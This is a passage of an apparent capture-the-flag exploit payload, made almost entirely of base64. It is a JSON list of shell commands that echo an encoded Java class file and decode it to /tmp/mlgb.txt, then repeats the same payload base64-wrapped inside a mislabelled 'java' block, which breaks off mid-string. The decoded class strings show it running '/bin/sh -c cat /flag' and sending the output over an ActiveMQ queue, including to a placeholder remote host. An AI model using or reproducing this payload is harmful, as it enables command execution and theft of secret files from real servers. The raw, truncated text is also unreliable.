ZHVjZXI7AQAFc3RhcnQBABUoKUxqYXZhL2xhbmcvUHJvY2VzczsBABFqYXZhL2xhbmcvUHJvY2VzcwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBAAx1c2VEZWxpbWl0ZXIBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL3V0aWwvU2Nhbm5lcjsBAARuZXh0AQAUKClMamF2YS9sYW5nL1N0cmluZzsBAAhnZXRCeXRlcwEABCgpW0IBAAUoW0IpVgEAEWNyZWF0ZVRleHRNZXNzYWdlAQAZKClMamF2YXgvam1zL1RleHRNZXNzYWdlOwEAB3NldFRleHQBABlqYXZheC9qbXMvTWVzc2FnZVByb2R1Y2VyAQAEc2VuZAEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEABWNsb3NlAQAOY3JlYXRlQ29uc3VtZXIBADQoTGphdmF4L2ptcy9EZXN0aW5hdGlvbjspTGphdmF4L2ptcy9NZXNzYWdlQ29uc3VtZXI7AQAZamF2YXgvam1zL01lc3NhZ2VDb25zdW1lcgEAEnNldE1lc3NhZ2VMaXN0ZW5lcgEAHihMamF2YXgvam1zL01lc3NhZ2VMaXN0ZW5lcjspVgEABmFwcGVuZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwEAB2dldFRleHQBAAh0b1N0cmluZwEAD3ByaW50U3RhY2tUcmFjZQAhACUAMQABADIAAAAFAAEAMwA0AAEANQAAAC8AAQABAAAABSq3AAGxAAAAAgA2AAAABgABAAAABQA3AAAADAABAAAABQA4ADkAAAACADoANAACADUAAAFeAAUACgAAAJq7AAJZEgO3AARMK7kABQEATSwDBLkABwMATi0SCLkACQIAOgQtGQS5AAoCADoFBr0AC1kDEgxTWQQSDVNZBRIOUzoGuwAPWbsAEFkZBrcAEbYAErYAE7cAFBIVtgAWtgAXtgAYOge7AAtZGQe3ABk6CC25ABoBADoJGQkZCLkAGwIAGQUZCbkAHAIAsgAdEh62AB8suQAgAQCxAAAAAgA2AAAARgARAAAACAAKAAkAEQAKABoACwAkAAwALgANAEMADgBbAA8AXgAQAGEAEQBmABIAcQATAHkAFACCABUAiwAWAJMAFwCZABgANwAAAGYACgAAAJoAOAA5AAAACgCQADsAPAABABEAiQA9AD4AAgAaAIAAPwBAAAMAJAB2AEEAQgAEAC4AbABDAEQABQBDAFcARQBGAAYAZgA0AEcASAAHAHEAKQBJAEoACAB5ACEASwBMAAkATQAAAAQAAQAvAAIATgA0AAIANQAAALUAAwAGAAAAPbsAAlkSIbcABEwruQAFAQBNLAMEuQAHAwBOLRIIuQAJAgA6BC0ZBLkAIgIAOgUZBSq5ACMCACy5ACQBALEAAAACADYAAAAiAAgAAAAbAAoAHAARAB0AGgAeACQAHwAuACAANgAhADwAIgA3AAAAPgAGAAAAPQA4ADkAAAAKADMAOwA8AAEAEQAsAD0APgACABoAIwBPAEAAAwAkABkAQQBCAAQALgAPAFAAUQAFAE0AAAAEAAEALwAJAFIAUwACADUAAABJAAIAAgAAAA27ACVZtwAmTCu3ACexAAAAAgA2AAAADgADAAAAJgAIACcADAAoADcAAAAWAAIAAAANAFQARgAAAAgABQBSADkAAQBNAAAABAABAC8AAQBVAFYAAQA1AAAAjQADAAMAAAAqsgAduwAoWbcAKRIqtgArK8AALLkALQEAtgArtgAutgAfpwAITSy2ADCxAAEAAAAhACQALwADADYAAAAWAAUAAAAtACEAMAAkAC4AJQAvACkAMQA3AAAAIAADACUABABXAFgAAgAAACoAOAA5AAAAAAAqAEkAWQABAFoAAAAHAAJkBwAvBAABAFsAAAACAFw=|base64 -d >/tmp/mlgb.txt","echo yv66vgAAADQAwQoAMQBdBwBeCABfCgACAGALAGEAYgcAYwsAZABlCABmCwAGAGcLAAYAaAcAaQgAaggAawgAbAcAbQcAbgoAEABvCgAQAHAKAHEAcgoADwBzCAB0CgAPAHUKAA8AdgoACwB3CgALAHgLAAYAeQsALAB6CwB7AHwJAH0AfggAfwoAgACBCwBkAIIIAIMLAAYAhAsAhQCGCwBkAIcHAIgKACUAXQoAJQCJBwCKCgAoAF0IAIsKACgAjAcAjQsALACOCgAoAI8HAJAKAC8AkQcAkgcAkwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTE1haW47AQAHcHVibGlzaAEAB2ZhY3RvcnkBAB1MamF2YXgvam1zL0Nvbm5lY3Rpb25GYWN0b3J5OwEACmNvbm5lY3Rpb24BABZMamF2YXgvam1zL0Nvbm5lY3Rpb247AQAKcHViU2Vzc2lvbgEAE0xqYXZheC9qbXMvU2Vzc2lvbjsBAAVxdWV1ZQEAEUxqYXZheC9qbXMvUXVldWU7AQAJcHVibGlzaGVyAQAbTGphdmF4L2ptcy9NZXNzYWdlUHJvZHVjZXI7AQADY21kAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEAAmJzAQACW0IBAAdtZXNzYWdlAQASTGphdmEvbGFuZy9TdHJpbmc7AQADbXNnAQAXTGphdmF4L2ptcy9UZXh0TWVzc2FnZTsBAApFeGNlcHRpb25zAQAHY29uc3VtZQEACnN1YlNlc3Npb24BAApzdWJzY3JpYmVyAQAbTGphdmF4L2ptcy9NZXNzYWdlQ29uc3VtZXI7AQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARhcmdzAQAJb25NZXNzYWdlAQAWKExqYXZheC9qbXMvTWVzc2FnZTspVgEAAWUBABVMamF2YS9sYW5nL0V4Y2VwdGlvbjsBABNMamF2YXgvam1zL01lc3NhZ2U7AQANU3RhY2tNYXBUYWJsZQEAClNvdXJjZUZpbGUBAAlNYWluLmphdmEMADMANAEALW9yZy9hcGFjaGUvYWN0aXZlbXEvQWN0aXZlTVFDb25uZWN0aW9uRmFjdG9yeQEAFXRjcDovLzEyNy4wLjAuMTo2MTYxNgwAMwCUBwCVDACWAJcBABFqYXZheC9qbXMvU2Vzc2lvbgcAmAwAmQCaAQAJZmxhZ3F1ZXVlDACbAJwMAJ0AngEAEGphdmEvbGFuZy9TdHJpbmcBAAcvYmluL3NoAQACLWMBAAljYXQgL2ZsYWcBABFqYXZhL3V0aWwvU2Nhbm5lcgEAGGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcgwAMwBTDACfAKAHAKEMAKIAowwAMwCkAQACXEEMAKUApgwApwCoDACpAKoMADMAqwwArACtDACuAJQHAK8MALAAVgcAsQwAsgCzAQAQcHVibGlzaCBmaW5pc2hlZAcAtAwAtQCUDAC2ADQBAA90Y3A6Ly94eHg6NjE2MTYMALcAuAcAuQwAugC7DACfADQBAARNYWluDAA6ADQBABdqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcgEACVJlY2VpdmVkIAwAvAC9AQAVamF2YXgvam1zL1RleHRNZXNzYWdlDAC+AKgMAL8AqAEAE2phdmEvbGFuZy9FeGNlcHRpb24MAMAANAEAEGphdmEvbGFuZy9PYmplY3QBABlqYXZheC9qbXMvTWVzc2FnZUxpc3RlbmVyAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWAQAbamF2YXgvam1zL0Nvbm5lY3Rpb25GYWN0b3J5AQAQY3JlYXRlQ29ubmVjdGlvbgEAGCgpTGphdmF4L2ptcy9Db25uZWN0aW9uOwEAFGphdmF4L2ptcy9Db25uZWN0aW9uAQANY3JlYXRlU2Vzc2lvbgEAFyhaSSlMamF2YXgvam1zL1Nlc3Npb247AQALY3JlYXRlUXVldWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZheC9qbXMvUXVldWU7AQAOY3JlYXRlUHJvZHVjZXIBADQoTGphdmF4L2ptcy9EZXN0aW5hdGlvbjspTGphdmF4L2ptcy9NZXNzYWdlUHJvZHVjZXI7AQAFc3RhcnQBABUoKUxqYXZhL2xhbmcvUHJvY2VzczsBABFqYXZhL2xhbmcvUHJvY2VzcwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBAAx1c2VEZWxpbWl0ZXIBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL3V0aWwvU2Nhbm5lcjsBAARuZXh0AQAUKClMamF2YS9sYW5nL1N0cmluZzsBAAhnZXRCeXRlcwEABCgpW0IBAAUoW0IpVgEAEWNyZWF0ZVRleHRNZXNzYWdlAQAZKClMamF2YXgvam1zL1RleHRNZXNzYWdlOwEAB3NldFRleHQBABlqYXZheC9qbXMvTWVzc2FnZVByb2R1Y2VyAQAEc2VuZAEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEABWNsb3NlAQAOY3JlYXRlQ29uc3VtZXIBADQoTGphdmF4L2ptcy9EZXN0aW5hdGlvbjspTGphdmF4L2ptcy9NZXNzYWdlQ29uc3VtZXI7AQAZamF2YXgvam1zL01lc3NhZ2VDb25zdW1lcgEAEnNldE1lc3NhZ2VMaXN0ZW5lcgEAHihMamF2YXgvam1zL01lc3NhZ2VMaXN0ZW5lcjspVgEABmFwcGVuZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwEAB2dldFRleHQBAAh0b1N0cmluZwEAD3ByaW50U3RhY2tUcmFjZQAhACUAMQABADIAAAAFAAEAMwA0AAEANQAAAC8AAQABAAAABSq3AAGxAAAAAgA2AAAABgABAAAABQA3AAAADAABAAAABQA4ADkAAAACADoANAACADUAAAFeAAUACgAAAJq7AAJZEgO3AARMK7kABQEATSwDBLkABwMATi0SCLkACQIAOgQtGQS5AAoCADoFBr0AC1kDEgxTWQQSDVNZBRIOUzoGuwAPWbsAEFkZBrcAEbYAErYAE7cAFBIVtgAWtgAXtgAYOge7AAtZGQe3ABk6CC25ABoBADoJGQkZCLkAGwIAGQUZCbkAHAIAsgAdEh62AB8suQAgAQCxAAAAAgA2AAAARgARAAAACAAKAAkAEQAKABoACwAkAAwALgANAEMADgBbAA8AXgAQAGEAEQBmABIAcQATAHkAFACCABUAiwAWAJMAFwCZABgANwAAAGYACgAAAJoAOAA5AAAACgCQADsAPAABABEAiQA9AD4AAgAaAIAAPwBAAAMAJAB2AEEAQgAEAC4AbABDAEQABQBDAFcARQBGAAYAZgA0AEcASAAHAHEAKQBJAEoACAB5ACEASwBMAAkATQAAAAQAAQAvAAIATgA0AAIANQAAALUAAwAGAAAAPbsAAlkSIbcABEwruQAFAQBNLAMEuQAHAwBOLRIIuQAJAgA6BC0ZBLkAIgIAOgUZBSq5ACMCACy5ACQBALEAAAACADYAAAAiAAgAAAAbAAoAHAARAB0AGgAeACQAHwAuACAANgAhADwAIgA3AAAAPgAGAAAAPQA4ADkAAAAKADMAOwA8AAEAEQAsAD0APgACABoAIwBPAEAAAwAkABkAQQBCAAQALgAPAFAAUQAFAE0AAAAEAAEALwAJAFIAUwACADUAAABJAAIAAgAAAA27ACVZtwAmTCu3ACexAAAAAgA2AAAADgADAAAAJgAIACcADAAoADcAAAAWAAIAAAANAFQARgAAAAgABQBSADkAAQBNAAAABAABAC8AAQBVAFYAAQA1AAAAjQADAAMAAAAqsgAduwAoWbcAKRIqtgArK8AALLkALQEAtgArtgAutgAfpwAITSy2ADCxAAEAAAAhACQALwADADYAAAAWAAUAAAAtACEAMAAkAC4AJQAvACkAMQA3AAAAIAADACUABABXAFgAAgAAACoAOAA5AAAAAAAqAEkAWQABAFoAAAAHAAJkBwAvBAABAFsAAAACAFw=|base64 -d >/tmp/mlgb.txt"]}
```

```java
eyJscGNBbGxDb20iOlsiZWNobyB5djY2dmdBQUFEUUF3UW9BTVFCZEJ3QmVDQUJmQ2dBQ0FHQUxBR0VBWWdjQVl3c0FaQUJsQ0FCbUN3QUdBR2NMQUFZQWFBY0FhUWdBYWdnQWF3Z0FiQWNBYlFjQWJnb0FFQUJ2Q2dBUUFIQUtBSEVBY2dvQUR3QnpDQUIwQ2dBUEFIVUtBQThBZGdvQUN3QjNDZ0FMQUhnTEFBWUFlUXNBTEFCNkN3QjdBSHdKQUgwQWZnZ0Fmd29BZ0FDQkN3QmtBSUlJQUlNTEFBWUFoQXNBaFFDR0N3QmtBSWNIQUlnS0FDVUFYUW9BSlFDSkJ3Q0tDZ0FvQUYwSUFJc0tBQ2dBakFjQWpRc0FMQUNPQ2dBb0FJOEhBSkFLQUM4QWtRY0FrZ2NBa3dFQUJqeHBibWwwUGdFQUF5Z3BWZ0VBQkVOdlpHVUJBQTlNYVc1bFRuVnRZbVZ5VkdGaWJHVUJBQkpNYjJOaGJGWmhjbWxoWW14bFZHRmliR1VCQUFSMGFHbHpBUUFHVEUxaGFXNDdBUUFIY0hWaWJHbHphQUVBQjJaaFkzUnZjbmtCQUIxTWFtRjJZWGd2YW0xekwwTnZibTVsWTNScGIyNUdZV04wYjNKNU93RUFDbU52Ym01bFkzUnBiMjRCQUJaTWFtRjJZWGd2YW0xekwwTnZibTVsWTNScGIyNDdBUUFLY0hWaVUyVnpjMmx2YmdFQUUweHFZWFpoZUM5cWJYTXZVMlZ6YzJsdmJqc0JBQVZ4ZFdWMVpRRUFFVXhxWVhaaGVDOXFiWE12VVhWbGRXVTdBUUFKY0hWaWJHbHphR1Z5QVFBYlRHcGhkbUY0TDJwdGN5OU5aWE56WVdkbFVISnZaSFZqWlhJN0FRQURZMjFrQVFBVFcweHFZWFpoTDJ4aGJtY3ZVM1J5YVc1bk93RUFBbUp6QVFBQ1cwSUJBQWR0WlhOellXZGxBUUFTVEdwaGRtRXZiR0Z1Wnk5VGRISnBibWM3QVFBRGJYTm5BUUFYVEdwaGRtRjRMMnB0Y3k5VVpYaDBUV1Z6YzJGblpUc0JBQXBGZUdObGNIUnBiMjV6QVFBSFkyOXVjM1Z0WlFFQUNuTjFZbE5sYzNOcGIyNEJBQXB6ZFdKelkzSnBZbVZ5QVFBYlRHcGhkbUY0TDJwdGN5OU5aWE56WVdkbFEyOXVjM1Z0WlhJN0FRQUViV0ZwYmdFQUZpaGJUR3BoZG1FdmJHRnVaeTlUZEhKcGJtYzdLVllCQUFSaGNtZHpBUUFKYjI1TlpYTnpZV2RsQVFBV0tFeHFZWFpoZUM5cWJYTXZUV1Z6YzJGblpUc3BWZ0VBQVdVQkFCVk1hbUYyWVM5c1lXNW5MMFY0WTJWd2RHbHZianNCQUJOTWFtRjJZWGd2YW0xekwwMWxjM05oWjJVN0FRQU5VM1JoWTJ0TllYQlVZV0pzWlFFQUNsTnZkWEpqWlVacGJHVUJBQWxOWVdsdUxtcGhkbUVNQURNQU5BRUFMVzl5Wnk5aGNHRmphR1V2WVdOMGFYWmxiWEV2UVdOMGFYWmxUVkZEYjI1dVpXTjBhVzl1Um1GamRHOXllUUVBRlhSamNEb3ZMekV5Tnk0d0xqQXVNVG8yTVRZeE5nd0FNd0NVQndDVkRBQ1dBSmNCQUJGcVlYWmhlQzlxYlhNdlUyVnpjMmx2YmdjQW1Bd0FtUUNhQVFBSlpteGhaM0YxWlhWbERBQ2JBSndNQUowQW5nRUFFR3BoZG1FdmJHRnVaeTlUZEhKcGJtY0JBQWN2WW1sdUwzTm9BUUFDTFdNQkFBbGpZWFFnTDJac1lXY0JBQkZxWVhaaEwzVjBhV3d2VTJOaGJtNWxjZ0VBR0dwaGRtRXZiR0Z1Wnk5UWNtOWpaWE56UW5WcGJHUmxjZ3dBTXdCVERBQ2ZBS0FIQUtFTUFLSUFvd3dBTXdDa0FRQUNYRUVNQUtVQXBnd0Fwd0NvREFDcEFLb01BRE1BcXd3QXJBQ3REQUN1QUpRSEFLOE1BTEFBVmdjQXNRd0FzZ0N6QVFBUWNIVmliR2x6YUNCbWFXNXBjMmhsWkFjQXRBd0F0UUNVREFDMkFEUUJBQTkwWTNBNkx5OTRlSGc2TmpFMk1UWU1BTGNBdUFjQXVRd0F1Z0M3REFDZkFEUUJBQVJOWVdsdURBQTZBRFFCQUJkcVlYWmhMMnhoYm1jdlUzUnlhVzVuUW5WcGJHUmxjZ0VBQ1ZKbFkyVnBkbVZrSUF3QXZBQzlBUUFWYW1GMllYZ3ZhbTF6TDFSbGVIUk5aWE56WVdkbERBQytBS2dNQUw4QXFBRUFFMnBoZG1FdmJHRnVaeTlGZUdObGNIUnBiMjRNQU1BQU5BRUFFR3BoZG1FdmJHRnVaeTlQWW1wbFkzUUJBQmxxWVhaaGVDOXFiWE12VFdWemMyRm5aVXhwYzNSbGJtVnlBUUFWS0V4cVlYWmhMMnhoYm1jdlUzUnlhVzVuT3lsV0FRQWJhbUYyWVhndmFtMXpMME52Ym01bFkzUnBiMjVHWVdOMGIzSjVBUUFRWTNKbFlYUmxRMjl1Ym1WamRHbHZiZ0VBR0NncFRHcGhkbUY0TDJwdGN5OURiMjV1WldOMGFXOXVPd0VBRkdwaGRtRjRMMnB0Y3k5RGIyNXVaV04wYVc5dUFRQU5ZM0psWVhSbFUyVnpjMmx2YmdFQUZ5aGFTU2xNYW1GMllYZ3ZhbTF6TDFObGMzTnBiMjQ3QVFBTFkzSmxZWFJsVVhWbGRXVUJBQ1VvVEdwaGRtRXZiR0Z1Wnk5VGRISnBibWM3S1V4cVlYWmhlQzlxYlhNdlVYVmxkV1U3QVFBT1kzSmxZWFJsVUhKdlpIVmpaWElCQURRb1RHcGhkbUY0TDJwdGN5OUVaWE4wYVc1aGRHbHZianNwVEdwaGRtRjRMMnB0Y3k5TlpYTnpZV2RsVUhKdlpIVmpaWEk3QVFBRmMzUmhjblFCQUJVb0tVeHFZWFpoTDJ4aGJtY3ZVSEp2WTJWemN6c0JBQkZxWVhaaEwyeGhibWN2VUhKdlkyVnpjd0VBRG1kbGRFbHVjSFYwVTNSeVpXRnRBUUFYS0NsTWFtRjJZUzlwYnk5SmJuQjFkRk4wY21WaGJUc0JBQmdvVEdwaGRtRXZhVzh2U1c1d2RYUlRkSEpsWVcwN0tWWUJBQXgxYzJWRVpXeHBiV2wwWlhJQkFDY29UR3BoZG1FdmJHRnVaeTlUZEhKcGJtYzdLVXhxWVhaaEwzVjBhV3d2VTJOaGJtNWxjanNCQUFSdVpYaDBBUUFVS0NsTWFtRjJZUzlzWVc1bkwxTjBjbWx1WnpzQkFBaG5aWFJDZVhSbGN3RUFCQ2dwVzBJQkFBVW9XMElwVmdFQUVXTnlaV0YwWlZSbGVIUk5aWE56WVdkbEFRQVpLQ2xNYW1GMllYZ3ZhbTF6TDFSbGVIUk5aWE56WVdkbE93RUFCM05sZEZSbGVIUUJBQmxxWVhaaGVDOXFiWE12VFdWemMyRm5aVkJ5YjJSMVkyVnlBUUFFYzJWdVpBRUFFR3BoZG1FdmJHRnVaeTlUZVhOMFpXMEJBQU52ZFhRQkFCVk1hbUYyWVM5cGJ5OVFjbWx1ZEZOMGNtVmhiVHNCQUJOcVlYWmhMMmx2TDFCeWFXNTBVM1J5WldGdEFRQUhjSEpwYm5Sc2JnRUFCV05zYjNObEFRQU9ZM0psWVhSbFEyOXVjM1Z0WlhJQkFEUW9UR3BoZG1GNEwycHRjeTlFWlhOMGFXNWhkR2x2YmpzcFRHcGhkbUY0TDJwdGN5OU5aWE56WVdkbFEyOXVjM1Z0WlhJN0FRQVphbUYyWVhndmFtMXpMMDFsYzNOaFoyVkRiMjV6ZFcxbGNnRUFFbk5sZEUxbGMzTmhaMlZNYVhOMFpXNWxjZ0VBSGloTWFtRjJZWGd2YW0xekwwMWxjM05oWjJWTWFYTjBaVzVsY2pzcFZnRUFCbUZ3Y0dWdVpBRUFMU2hNYW1GMllTOXNZVzVuTDFOMGNtbHVaenNwVEdwaGRtRXZiR0Z1Wnk5VGRISnBibWRDZFdsc1pHVnlPd0VBQjJkbGRGUmxlSFFCQUFoMGIxTjBjbWx1WndFQUQzQnlhVzUwVTNSaFkydFVjbUZqWlFBaEFDVUFNUUFCQURJQUFBQUZBQUVBTXdBMEFBRUFOUUFBQUM4QUFRQUJBQUFBQlNxM0FBR3hBQUFBQWdBMkFBQUFCZ0FCQUFBQUJRQTNBQUFBREFBQkFBQUFCUUE0QURrQUFBQUNBRG9BTkFBQ0FEVUFBQUZlQUFVQUNnQUFBSnE3QUFKWkVnTzNBQVJNSzdrQUJRRUFUU3dEQkxrQUJ3TUFUaTBTQ0xrQUNRSUFPZ1F0R1FTNUFBb0NBRG9GQnIwQUMxa0RFZ3hUV1FRU0RWTlpCUklPVXpvR3V3QVBXYnNBRUZrWkJyY0FFYllBRXJZQUU3Y0FGQklWdGdBV3RnQVh0Z0FZT2dlN0FBdFpHUWUzQUJrNkNDMjVBQm9CQURvSkdRa1pDTGtBR3dJQUdRVVpDYmtBSEFJQXNnQWRFaDYyQUI4c3VRQWdBUUN4QUFBQUFnQTJBQUFBUmdBUkFBQUFDQUFLQUFrQUVRQUtBQm9BQ3dBa0FBd0FMZ0FOQUVNQURnQmJBQThBWGdBUUFHRUFFUUJtQUJJQWNRQVRBSGtBRkFDQ0FCVUFpd0FXQUpNQUZ3Q1pBQmdBTndBQUFHWUFDZ0FBQUpvQU9BQTVBQUFBQ2dDUUFEc0FQQUFCQUJFQWlRQTlBRDRBQWdBYUFJQUFQd0JBQUFNQUpBQjJBRUVBUWdBRUFDNEFiQUJEQUVRQUJRQkRBRmNBUlFCR0FBWUFaZ0EwQUVjQVNBQUhBSEVBS1FCSkFFb0FDQUI1QUNFQVN3Qk1BQWtBVFFBQUFBUUFBUUF2QUFJQVRnQTBBQUlBTlFBQUFMVUFBd0FHQUFBQVBic0FBbGtTSWJjQUJFd3J1UUFGQVFCTkxBTUV1UUFIQXdCT0xSSUl1UUFKQWdBNkJDMFpCTGtBSWdJQU9nVVpCU3E1QUNNQ0FDeTVBQ1FCQUxFQUFBQUNBRFlBQUFBaUFBZ0FBQUFiQUFvQUhBQVJBQjBBR2dBZUFDUUFId0F1QUNBQU5nQWhBRHdBSWdBM0FBQUFQZ0FHQUFBQVBRQTRBRGtBQUFBS0FETUFPd0E4QUFFQUVRQXNBRDBBUGdBQ0FCb0FJd0JQQUVBQUF3QWtBQmtBUVFCQ0FBUUFMZ0FQQUZBQVVRQUZBRTBBQUFBRUFBRUFMd0FKQUZJQVV3QUNBRFVBQUFCSkFBSUFBZ0FBQUEyN0FDVlp0d0FtVEN1M0FDZXhBQUFBQWdBMkFBQUFEZ0FEQUFBQUpnQUlBQ2NBREFBb0FEY0FBQUFXQUFJQUFBQU5BRlFBUmdBQUFBZ0FCUUJTQURrQUFRQk5BQUFBQkFBQkFDOEFBUUJWQUZZQUFRQTFBQUFBalFBREFBTUFBQUFxc2dBZHV3QW9XYmNBS1JJcXRnQXJLOEFBTExrQUxRRUF0Z0FydGdBdXRnQWZwd0FJVFN5MkFEQ3hBQUVBQUFBaEFDUUFMd0FEQURZQUFBQVdBQVVBQUFBdEFDRUFNQUFrQUM0QUpRQXZBQ2tBTVFBM0FBQUFJQUFEQUNVQUJBQlhBRmdBQWdBQUFDb0FPQUE1QUFBQUFBQXFBRWtBV1FBQkFGb0FBQUFIQUFKa0J3QXZCQUFCQUZzQUFBQUNBRnc9fGJhc2U2NCAtZCA+L3RtcC9tbGdiLnR4dCIsImVjaG8geXY2NnZnQUFBRFFBd1FvQU1RQmRCd0JlQ0FCZkNnQUNBR0FMQUdFQVlnY0FZd3NBWkFCbENBQm1Dd0FHQUdjTEFBWUFhQWNBYVFnQWFnZ0Fhd2dBYkFjQWJRY0FiZ29BRUFCdkNnQVFBSEFLQUhFQWNnb0FEd0J6Q0FCMENnQVBBSFVLQUE4QWRnb0FDd0IzQ2dBTEFIZ0xBQVlBZVFzQUxBQjZDd0I3QUh3SkFIMEFmZ2dBZndvQWdBQ0JDd0JrQUlJSUFJTUxBQVlBaEFzQWhRQ0dDd0JrQUljSEFJZ0tBQ1VBWFFvQUpRQ0pCd0NLQ2dBb0FGMElBSXNLQUNnQWpBY0FqUXNBTEFDT0NnQW9BSThIQUpBS0FDOEFrUWNBa2djQWt3RUFCanhwYm1sMFBnRUFBeWdwVmdFQUJFTnZaR1VCQUE5TWFXNWxUblZ0WW1WeVZHRmliR1VCQUJKTWIyTmhiRlpoY21saFlteGxWR0ZpYkdVQkFBUjBhR2x6QVFBR1RFMWhhVzQ3QVFBSGNIVmliR2x6YUFFQUIyWmhZM1J2Y25rQkFCMU1hbUYyWVhndmFtMXpMME52Ym01bFkzUnBiMjVHWVdOMGIzSjVPd0VBQ21OdmJtNWxZM1JwYjI0QkFCWk1hbUYyWVhndmFtMXpMME52Ym01bFkzUnBiMjQ3QVFBS2NIVmlVMlZ6YzJsdmJnRUFFMHhxWVhaaGVDOXFiWE12VTJWemMybHZianNCQUFWeGRXVjFaUUVBRVV4cVlYWmhlQzlxYlhNdlVYVmxkV1U3QVFBSmNIVmliR2x6YUdWeUFRQWJUR3BoZG1GNEwycHRjeTlOWlhOellXZGxVSEp2WkhWalpYSTdBUUFEWTIxa0FRQVRXMHhxWVhaaEwyeGhibWN2VTNSeWFXNW5Pd0VBQW1KekFRQUNXMElCQUFkdFpYTnpZV2RsQVFBU1RHcGhkbUV2YkdGdVp5OVRkSEpwYm1jN0FRQURiWE5uQVFBWFRHcGhkbUY0TDJwdGN5OVVaWGgwVFdWemMyRm5aVHNCQUFwRmVHTmxjSFJwYjI1ekFRQUhZMjl1YzNWdFpRRUFDbk4xWWxObGMzTnBiMjRCQUFwemRXSnpZM0pwWW1WeUFRQWJUR3BoZG1GNEwycHRjeTlOWlhOellXZGxRMjl1YzNWdFpYSTdBUUFFYldGcGJnRUFGaWhiVEdwaGRtRXZiR0Z1Wnk5VGRISnBibWM3S1ZZQkFBUmhjbWR6QVFBSmIyNU5aWE56WVdkbEFRQVdLRXhxWVhaaGVDOXFiWE12VFdWemMyRm5aVHNwVmdFQUFXVUJBQlZNYW1GMllTOXNZVzVuTDBWNFkyVndkR2x2YmpzQkFCTk1hbUYyWVhndmFtMXpMMDFsYzNOaFoyVTdBUUFOVTNSaFkydE5ZWEJVWVdKc1pRRUFDbE52ZFhKalpVWnBiR1VCQUFsTllXbHVMbXBoZG1FTUFETUFOQUVBTFc5eVp5OWhjR0ZqYUdVdllXTjBhWFpsYlhFdlFXTjBhWFpsVFZGRGIyNXVaV04wYVc5dVJtRmpkRzl5ZVFFQUZYUmpjRG92THpFeU55NHdMakF1TVRvMk1UWXhOZ3dBTXdDVUJ3Q1ZEQUNXQUpjQkFCRnFZWFpoZUM5cWJYTXZVMlZ6YzJsdmJnY0FtQXdBbVFDYUFRQUpabXhoWjNGMVpYVmxEQUNiQUp3TUFKMEFuZ0VBRUdwaGRtRXZiR0Z1Wnk5VGRISnBibWNCQUFjdlltbHVMM05vQVFBQ0xXTUJBQWxqWVhRZ0wyWnNZV2NCQUJGcVlYWmhMM1YwYVd3dlUyTmhibTVsY2dFQUdHcGhkbUV2YkdGdVp5OVFjbTlqWlhOelFuVnBiR1JsY2d3QU13QlREQUNmQUtBSEFLRU1BS0lBb3d3QU13Q2tBUUFDWEVFTUFLVUFwZ3dBcHdDb0RBQ3BBS29NQURNQXF3d0FyQUN0REFDdUFKUUhBSzhNQUxBQVZnY0FzUXdBc2dDekFRQVFjSFZpYkdsemFDQm1hVzVwYzJobFpBY0F0QXdBdFFDVURBQzJBRFFCQUE5MFkzQTZMeTk0ZUhnNk5qRTJNVFlNQUxjQXVBY0F1UXdBdWdDN0RBQ2ZBRFFCQUFSTllXbHVEQUE2QURRQkFCZHFZWFpoTDJ4aGJtY3ZVM1J5YVc1blFuVnBiR1JsY2dFQUNWSmxZMlZwZG1Wa0lBd0F2QUM5QVFBVmFtRjJZWGd2YW0xekwxUmxlSFJOWlhOellXZGxEQUMrQUtnTUFMOEFxQUVBRTJwaGRtRXZiR0Z1Wnk5RmVHTmxjSFJwYjI0TUFNQUFOQUVBRUdwaGRtRXZiR0Z1Wnk5UFltcGxZM1FCQUJscVlYWmhlQzlxYlhNdlRXVnpjMkZuWlV4cGMzUmxibVZ5QVFBVktFeHFZWFpoTDJ4aGJtY3ZVM1J5YVc1bk95bFdBUUFiYW1GMllYZ3ZhbTF6TDBOdmJtNWxZM1JwYjI1R1lXTjBiM0o1QVFBUVkzSmxZWFJsUTI5dWJtVmpkR2x2YmdFQUdDZ3BUR3BoZG1GNEwycHRjeTlEYjI1dVpXTjBhVzl1T3dFQUZHcGhkbUY0TDJwdGN5OURiMjV1WldOMGFXOXVBUUFOWTNKbFlYUmxVMlZ6YzJsdmJnRUFGeWhhU1NsTWFtRjJZWGd2YW0xekwxTmxjM05wYjI0N0FRQUxZM0psWVhSbFVYVmxkV1VCQUNVb1RHcGhkbUV2YkdGdVp5OVRkSEpwYm1jN0tVeHFZWFpoZUM5cWJYTXZVWFZsZFdVN0FRQU9ZM0psWVhSbFVISnZaSFZqWlhJQkFEUW9UR3BoZG1GNEwycHRjeTlFWlhOMGFXNWhkR2x2YmpzcFRHcGhkbUY0TDJwdGN5OU5aWE56WVdkbFVISnZaSFZqWlhJN0FRQUZjM1JoY25RQkFCVW9LVXhxWVhaaEwyeGhibWN2VUhKdlkyVnpjenNCQUJGcVlYWmhMMnhoYm1jdlVISnZZMlZ6Y3dFQURtZGxkRWx1Y0hWMFUzUnlaV0Z0QVFBWEtDbE1hbUYyWVM5cGJ5OUpibkIxZEZOMGNtVmhiVHNCQUJnb1RHcGhkbUV2YVc4dlNXNXdkWFJUZEh